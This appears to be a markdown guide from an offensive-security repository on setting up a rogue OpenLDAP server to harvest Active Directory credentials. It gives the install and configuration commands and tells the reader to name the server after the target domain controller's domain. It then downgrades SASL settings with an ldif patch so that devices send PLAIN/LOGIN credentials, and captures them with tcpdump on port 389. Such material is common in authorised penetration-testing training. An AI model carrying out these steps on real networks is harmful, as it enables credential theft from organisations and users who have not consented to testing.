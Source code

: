 #  Creating a Rogue LDAP Server

Some of the techniques requires you to create a rogue LDAP server. Below is a short guide on setting up.

## Guide

1. Install OpenLDAP
```bash
sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd
```

2. Configure your LDAP server
```bash
sudo dpkg-reconfigure -p low slapd
```
- Following the steps below to set up the slapd settings:
  - Make sure to press <No> when requested if you want to skip server configuration. Choose <No>.
  - For the DNS domain name, you want to provide our target domain, which is your DC main domain.
  - Use this same name for the Organisation name as well.
  - Provide any Administrator password, you may use ```12345```.
  - Select MDB as the LDAP database to use. Choose <MDB>.
  - For the last two options, ensure the database is not removed when purged. Choose <No>.
  - Move old database files before a new one is created. Choose <Yes>.

3. Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods.
- We need to create a new ldif file and called with the following content:
```bash
#olcSaslSecProps.ldif
dn: cn=config
replace: olcSaslSecProps
olcSaslSecProps: noanonymous,minssf=0,passcred
```
4. Now we can use the ldif file to patch our LDAP server using the following:
``` bash
sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart
```
  
5. Verify the LDAP server config
```bash
ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms
```
  
6. Capture LDAP credential
``` bash
sudo tcpdump -SX -i eth0 tcp port 389
```
Note: You may have to change eth0 to whichever interface on your machine

